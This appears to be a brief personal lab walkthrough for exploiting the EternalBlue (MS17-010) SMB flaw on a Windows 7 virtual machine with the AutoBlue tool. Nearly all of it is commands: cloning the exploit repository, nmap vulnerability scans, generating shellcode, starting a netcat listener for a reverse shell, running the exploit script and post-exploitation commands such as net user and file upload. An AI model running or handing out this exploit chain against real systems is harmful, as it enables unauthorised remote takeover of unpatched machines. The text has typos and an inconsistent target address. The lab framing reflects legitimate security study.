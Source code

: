 1. Clone the Repo:
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git  
gh repo clone 3ndG4me/AutoBlue-MS17-010




```
cd /to the dir whre you have requirements.txt/
virtualenv venv1   
source venv/bin/activate
pip install -r requirements.txt
pip list ##to see the list of packages installed.

```

Now take a look at the shellcode.sh this will generate the shellcode.
Now before we do this lets check if the target is vuln or not?

use namp
```
sudo nmap -sV -p 445 -O 10.0.2.5
-- target is win 7
ls -la /usr/share/nmap/scripts | grep smb-

--let's see if this target is vuln to smb- script
nmap -sV -p 445 -O --script=smb- 10.0.2.5 
```

```
chmod 777 shell_prep.sh
./shell_prep.sh

---------------------------------------------------------------------------------
┌──(venv1)─(root㉿kali)-[/home/…/git_clones/metasploit_1_eternablue_manual_git/AutoBlue-MS17-010-master/shellcode]
└─# ./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

```
we're not doing the listner.py as we're using the cmd here for shell

Make the .py file executable.
```
--Another shell:
nc -nvlp 4444
--main shell
python eternalblue_exploit7.py 10.0.2.6 shellcode/sc_x64.bin 
```

    net user
    systeminfo
    getuid
    upload /home/kali/file.txt C:\to the desired file location on win\
Done!
